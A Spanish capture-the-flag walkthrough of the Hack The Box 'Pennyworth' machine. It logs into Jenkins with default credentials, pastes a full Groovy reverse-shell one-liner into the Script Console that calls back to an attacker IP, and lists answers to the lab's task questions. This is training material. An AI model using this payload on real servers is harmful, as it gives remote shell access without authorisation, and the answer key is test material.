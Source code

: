 # Pennyworth

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Common Applications (Aplicaciones Comunes):** Son herramientas ampliamente utilizadas en entornos empresariales e industriales, como servidores de integración continua, bases de datos y servicios web. Aunque son esenciales para la productividad, su configuración incorrecta o el uso de versiones desactualizadas pueden exponer vulnerabilidades críticas que los atacantes pueden explotar.
  * **Jenkins:** Es una herramienta de automatización de integración y entrega continua (CI/CD) utilizada para compilar, probar y desplegar aplicaciones. Debido a su uso frecuente en entornos de desarrollo, si no se configura adecuadamente o se protege con credenciales seguras, puede ser un objetivo para ataques como la ejecución remota de código (RCE) o la explotación de credenciales predeterminadas.
  * **Java:** Es un lenguaje de programación versátil y ampliamente utilizado en aplicaciones empresariales y web. Aunque es potente, su ejecución en entornos vulnerables puede llevar a ataques como la deserialización insegura, vulnerabilidades en bibliotecas desactualizadas y explotación de código malicioso dentro de aplicaciones Java en ejecución.
  * **Reconnaissance (Reconocimiento):** Es una fase crítica en las pruebas de penetración donde se recopila información sobre el sistema objetivo. Esto incluye la identificación de versiones de software, credenciales predeterminadas y servicios expuestos, lo que permite a los atacantes descubrir posibles puntos de entrada y debilidades en la infraestructura.
  * **Remote Code Execution (Ejecución Remota de Código - RCE):** Es una de las vulnerabilidades más peligrosas que permite a un atacante ejecutar comandos arbitrarios en un sistema objetivo de forma remota. En entornos con Jenkins y Java, una mala configuración o el uso de plugins inseguros pueden llevar a la explotación de RCE, comprometiendo completamente el servidor.
  * **Default Credentials (Credenciales Predeterminadas):** Son credenciales establecidas por defecto en software o hardware que, si no se cambian, pueden ser utilizadas por atacantes para obtener acceso no autorizado. Servicios como Jenkins a menudo tienen credenciales predeterminadas que, si no son modificadas, pueden permitir compromisos completos del sistema con privilegios administrativos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.135.7
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.135.7
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **8080** perteneciente al servicio **HTTP** está abierto. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos las credenciales por defecto **root**:**password**.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos ubicamos en Manage Jenkins > Script Console para subir una Reverse Shell.

```bash
String host="10.10.16.35";int port=4444;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Le damos a run mientras nos ponemos en escucha.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Tarea 1**

**¿Qué significa el acrónimo CVE?**\
📌 **Common Vulnerabilities and Exposures** (Vulnerabilidades y Exposiciones Comunes)

**Tarea 2**

**¿Qué significan las tres letras en CIA, refiriéndose a la tríada CIA en ciberseguridad?**\
📌 **Confidentiality, Integrity, Availability** (Confidencialidad, Integridad, Disponibilidad)

**Tarea 3**

**¿Qué versión del servicio se está ejecutando en el puerto 8080?**\
📌 **Jetty 9.4.39.v20210325**

**Tarea 4**

**¿Qué versión de Jenkins se está ejecutando en el objetivo?**\
📌 **2.289.1**

**Tarea 5**

**¿Qué tipo de script se acepta como entrada en la Consola de Scripts de Jenkins?**\
📌 **Groovy**

**Tarea 6**

**¿A qué sería igual la variable "String cmd" del fragmento de script Groovy si la VM de destino estuviera ejecutando Windows?**\
📌 **cmd.exe**

**Tarea 7**

**¿Qué otro comando, además de "ip a", podríamos usar para mostrar la información de nuestras interfaces de red en Linux?**\
📌 **ifconfig**

**Tarea 8**

**¿Qué opción debemos usar con netcat para que utilice el modo de transporte UDP?**\
📌 **-U**

**Tarea 9**

**¿Cuál es el término utilizado para describir hacer que un host objetivo inicie una conexión de regreso al host del atacante?**\
📌 **reverse shell**
